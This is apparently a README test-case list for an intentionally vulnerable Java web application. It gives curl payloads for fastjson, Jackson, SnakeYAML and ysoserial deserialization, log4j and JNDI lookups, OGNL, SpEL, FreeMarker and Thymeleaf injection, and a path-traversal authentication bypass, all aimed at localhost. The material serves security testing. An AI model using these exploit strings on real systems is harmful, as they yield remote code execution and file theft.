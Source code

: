 ### 测试用例

1. 测试/actuator接口
2. 测试fastjson漏洞
   ```   
   curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"org.apache.commons.proxy.provider.remoting.RmiProvider","host":"127.0.0.1",port:"1099","name":"Exploit"}'
   curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/Exploit","autoCommit":true}'
   ```
3. 测试 alwaysUseFullPath 认证绕过漏洞: http://rui0.cn/archives/1643
   * 直接访问 /admin/auth 会提示认证失败
   * 使用 /admin/no-auth/%2e%2e/auth 可以绕过认证
4. 测试ognl执行
   ```
   curl 127.0.0.1:8080/ognl/parse -d 'ognl=#a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{"open", "/System/Applications/Calculator.app/"})).start()'
   ```
5. 测试spel执行
   ```
   curl 127.0.0.1:8080/spel/parse -d "spel=T(java.lang.Runtime).getRuntime().exec('open /System/Applications/Calculator.app')"
   ```
6. 测试log4j漏洞
   ```
   curl 127.0.0.1:8080/log4j -d 'log=${jndi:ldap://127.0.0.1:1099/a}'
   ```
7. 测试freemarker漏洞(JythonRuntime需要本地有class): https://tttang.com/archive/1412/
   ```
   curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("open /System/Applications/Calculator.app")</@value>'
   curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.Execute"?new()>$${value("open /System/Applications/Calculator.app")}'
   ```
8. 测试jndi lookup
   ```
   curl 127.0.0.1:8080/jndi/lookup -d 'url=ldap://127.0.0.1:1389/a'
   ```
9. 测试thymeleaf模板注入: https://github.com/veracode-research/spring-view-manipulation
   ```
   curl 'http://127.0.0.1:8080/thymeleaf/path?lang=__%24%7BT(java.lang.Runtime).getRuntime().exec(%27%6F%70%65%6E%20%2F%53%79%73%74%65%6D%2F%41%70%70%6C%69%63%61%74%69%6F%6E%73%2F%43%61%6C%63%75%6C%61%74%6F%72%2E%61%70%70%27)%7D__::.xx'
   ```
10. 测试readObject()
   ```
   ysoserial CommonsCollections6 "cp /etc/passwd /tmp" > test
   curl 127.0.0.1:8080/object/parse --data-binary @test -H 'Content-Type: text/plain'
   ```
11. 测试snake yaml漏洞
   ```
   curl 127.0.0.1:8080/snakeyaml/parse -d 'yaml=!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1/payload.jar"]]]]'
   ```
12. 测试jackson反序列化
   ```
   curl 127.0.0.1:8080/jackson/parse -d 'json=["com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://127.0.0.1:1389/Exploit"}]'
   ```



